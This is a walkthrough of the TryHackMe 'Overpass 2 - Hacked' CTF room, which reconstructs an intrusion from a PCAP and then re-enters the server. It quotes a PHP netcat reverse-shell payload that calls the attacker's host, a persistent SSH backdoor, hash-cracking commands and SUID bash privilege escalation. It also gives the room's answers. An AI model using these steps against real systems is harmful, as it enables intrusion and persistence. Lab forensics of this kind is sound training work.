


## Overpass 2 - Hacked

### Information
Overpass has been hacked and we have to understand how the attacker got in and hacked his way into the production server.

In order to do this we have access to a PCAP with network traffic that we will analyze with Wireshark.

## Reverse Shell Payload

At first glance we can already see that the attacker has the IP address **192.168.170.145** and the server has IP **192.168.170.159**.

Additionally, the file payload.php was uploaded successfully through **/development/upload.php**.



Additionally, we can inspect the content of the file which is not obfuscated in any measure, and see the following code:

```
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"

Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

This is a reverse shell payload written in PHP, which are familiar with already at this point.

**Question** What was the URL of the page they used to upload a reverse shell?

> /development/


**Question** payload did the attacker use to gain access?

> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>


To sum up, there are 4 requests which are made before the attacker got shell access to the server:

1. GET on /development/
2. POST on /development/upload.php: Uploads the payload.php file.
3. GET on /development/uploads: Lists files inside the uploads directory.
4. GET on /development/uploads/payload.php: Executes the payload which connects back to his local listener

We can see that the target has got shell through the following response:


Additionally, the target continues executing commands.

- id

  

  To which the server responds:

  

- python3 -c 'import pty;pty.spawn("/bin/bash")'

  Upgrades shell

- ls -lAh

  Long-format listing of all files and directories in the current directory, including hidden files and directories, with file sizes displayed in a human-readable format.

  Response:

  > total 8.0K
  >
  > -rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
  > -rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php

- cat .overpass

  Response:

  > ,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.

- su james

- whenevernoteartinstant

  Password

We can check the full list of commands and responses using "Follow" > "TCP Stream".



**Question** What password did the attacker use to privesc?

> whenevernoteartinstant


If we continue reading the output we can see that the target, now with james' privileges cloned a repository and initiated a backdoor in port 2222 to connect back to using SSH.

```
git clone https://github.com/NinjaJc01/ssh-backdoor
```

**Question** How did the attacker establish persistence?

> https://github.com/NinjaJc01/ssh-backdoor


Finally, we can check using the output of the /etc/shadow file for how many system passwords were crackable using the fasttrack wordlist.


**Question** Using the fasttrack wordlist, how many of the system passwords were crackable?

> 4


## Analyse backdoor

Clone the repo into your environment in order to analyse its code

```
git clone https://github.com/NinjaJc01/ssh-backdoor
```

We have 5 files:

1. README.md
2. backdoor
3. build.sh: 
4. main.go
5. setup.sh

If we open the main.go file we can see that there is a global variable:

```
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```

This string represents the hash value for the backdoor. Alternatively, we can also run `chmod +x backdoor;./backdoor -h` to see the options the executable may take and the answer is also there.

**Question** What's the default hash for the backdoor?

> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3


Additionally we have this function which is called ahead:

```
func verifyPass(hash, salt, password string) bool {
 resultHash := hashPassword(password, salt)
 return resultHash == hash
}
-------------
func passwordHandler(_ ssh.Context, password string) bool {
 return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

Meaning we have a hardcoded salt value.

**Question** What's the hardcoded salt for the backdoor?

> 1c362db832f3f864c8c2fe05f2002a05


If we go back to the PCAP file we can see that the attacker launched the following command:

```
./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

Let us try to crack this hash, but first we have to check how it is generated.

```
func hashPassword(password string, salt string) string {
    hash := sha512.Sum512([]byte(password + salt))
    return fmt.Sprintf("%x", hash)
}
```

Basicaly the hashed value is the password hash plus the salt value:

> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed + 1c362db832f3f864c8c2fe05f2002a05 =
>
> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed1c362db832f3f864c8c2fe05f2002a05

Hash Password and Salt Separator:

- John: **$**
- Hashcat: **:**

### John The Ripper

Create a file with the following content password$salt:

> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed**$**1c362db832f3f864c8c2fe05f2002a05

Now run the command:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format='dynamic=sha512($p.$s)' --salt='1c362db832f3f864c8c2fe05f2002a05'
```


### Hashcat

Create the file password and salt:

> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed**:**1c362db832f3f864c8c2fe05f2002a05

Now run the command:

```
hashcat --force -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**Question** Crack the hash using rockyou and a cracking tool of your choice. What's the password?

> \<Redacted\>


## Overpass Production Server

Apparently the attacker defaced the website, let us search for evidences of this.

Let's start by doing some port scanning on the target to recall what ports are open.

```
nmap $ip
```

>  Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 12:53 EST
> Nmap scan report for 10.10.235.110
> Host is up (0.050s latency).
> Not shown: 997 closed tcp ports (conn-refused)
> PORT     STATE SERVICE
> 22/tcp   open  ssh
> 80/tcp   open  http
> 2222/tcp open  EtherNetIP-1


We already know what service port 2222 is hosting, let us check if the attacker has targeted the web service.


Yes they have!

**Question** What message did they leave as a heading?

> H4ck3d by CooctusClan


Finally, now we have to impersonate the attacker and retrieve a user.txt and root.txt flags.

First we can use the backdoor that was created and log in:

```
ssh $ip -p 2222
```

We already know the password so this should not be a problem. 

We are logged in as user **james** and are able to read the user flag.

**Question** What's the user flag?

> \<Redacted\>


As our last task we have to escalate our privileges. The hint from THM tells us the attacker placed something so that he could escalate his privileges easily.


As you can see the ".suid_bash" file which seems to be a bash file executable with the "Set User ID". Since the file is owned by root, if we execute this file we can potentially start a new shell with root privileges.

This resource helps us with this https://gtfobins.github.io/gtfobins/bash/#suid, therefore we should run the command below to escalate our privileges:

```
./.suid_bash -p
```


**Question** What's the root flag?

> \<Redacted\>

Great! We have rooted another machine, congrats!
